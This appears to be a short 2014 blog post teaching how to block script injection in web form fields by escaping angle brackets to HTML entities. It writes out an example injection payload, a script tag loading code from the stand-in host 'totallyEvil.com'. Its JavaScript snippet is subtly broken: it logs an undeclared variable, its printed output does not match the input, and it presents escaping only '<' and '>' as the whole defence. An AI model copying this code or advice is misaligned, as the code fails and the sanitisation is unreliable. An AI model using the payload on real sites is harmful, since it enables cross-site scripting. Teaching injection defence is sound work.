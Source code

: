 ```yaml
---
title:  "Prohibit Injectable Scripts"
date:   2014-12-08 15:05:12
main_image: "burglars.jpg"
flickr_attribution: stavos
flickr_link: https://www.flickr.com/photos/stavos52093/11238345176/in/photolist-i86su1-hpmFBT-emdrxE-6LgXp-2j7uWp-EQwdX-8F1kwP-ECCvy-49drf1-8VZ3r7-6Fh4eL-6WeBaL-9X8xgE-buC1P-7yGcE5-Ds9Zq-89dyu6-8iegNp-4fApKj-7eHQ2-di8LQW-5YWuHS-4ZddU-dgQEAx-7NgRvE-4AcEm1-3ADtB-4ufoFq-dvZjDq-8PtZJn-aAP3xK-9sTx4Z-qTxd-yaFq3-F4od4-bHpQbn-nREXr7-7QdMru-EQwdv-4gtg7F-2M3A4C-8VVZwp-8VW1iT-8VW1YM-6Wazzv-7QwYFZ-bov2cY-ng5qF9-8VVXmV-8VZ2JQ
flickr_license: "https://creativecommons.org/licenses/by-nc-nd/2.0/"
---
```


If you’re capturing information in a form element, it’s a good idea to minimize the chances for someone to inject a malicious script into your site. Script injection is one of the methods used to hack a website. Let’s say someone tries to enter the following into your First Name input:

`<script src="http://totallyEvil.com/demonScript.js"></script>`

An easy thing to do is to convert the “<” and “>” characters into their html entities.

{% highlight javascript %}

var badScripty = '<script src="totallyEvil.com/demonScript.js"></script>';

var safeEntry = badScripty.replace(/</g, "&lt;");
safeEntry = safeEntry.replace(/>/g, "&gt;");

// check safescript
console.log(safeScript);

//returns
&lt;script src="totallyEvilScript.js"&gt;&lt;/script&gt;

{% endhighlight %}
